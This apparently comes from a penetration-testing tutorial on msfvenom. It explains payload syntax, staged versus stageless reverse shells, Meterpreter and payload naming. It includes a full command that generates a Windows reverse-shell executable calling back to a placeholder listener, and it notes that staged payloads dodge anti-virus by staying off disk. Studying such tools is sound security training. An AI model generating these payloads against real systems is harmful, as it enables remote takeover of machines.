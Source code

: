Part of the Metasploit framework, msfvenom is used to generate code for primarily reverse and bind shells.
The standard syntax for msfvenom is as follows:
`msfvenom -p <PAYLOAD> <OPTIONS>`  

For example, to generate a Windows x64 Reverse Shell in an exe format, we could use:
`msfvenom -p windows/x64/shell/reverse_tcp -f exe -o shell.exe LHOST=<listen-IP> LPORT=<listen-port>`
- **-f** is used to specifies the output format.
- **-o** the output location and filename for the generated payload.
- **LHOST=** is used to specify the IP to connect back to.
- **LPORT=** is used to specify the port on the local machine to connect back to.
## Staged Payloads
Are sent in two parts. The first part is called the stager. This is  piece of code which is executed directly on the server itself. It connects back to a waiting listener, but doesn't actually contain any reverse shell code by itself.
Instead it connects to the listener and uses the connection to load the real payload, executing it directly and preventing it from touching the disk where it could be caught by traditional anti-virus. Staged payloads require a special listener -- usually the Metasploit multi/handler.
## Stageless
Are more common, these are entirely self-contained in that there is one piece of code which, when executed, sends a shell back immediately to the waiting listener. Stageless payloads tend to be easier to use and catch.

## Meterpreter
Meterpreter shells are Metasploit's own brand of fully-featured shell. They are completely stable, making them a very good thing when working with Windows targets.

### Payload Naming Conventions
When working with msfvenom, it's important to understand how the naming system works. The basic convention is as follows:
`<OS>/<arch>/<payload>`  
  
For example:
`linux/x86/shell_reverse_tcp`  

This would generate a stageless reverse shell for an x86 Linux target.
In the above examples the payload used was `shell_reverse_tcp`. This indicates that it was a _stageless_ payload. Stageless payloads are denoted with underscores (`_`). The staged equivalent to this payload would be:

`shell/reverse_tcp`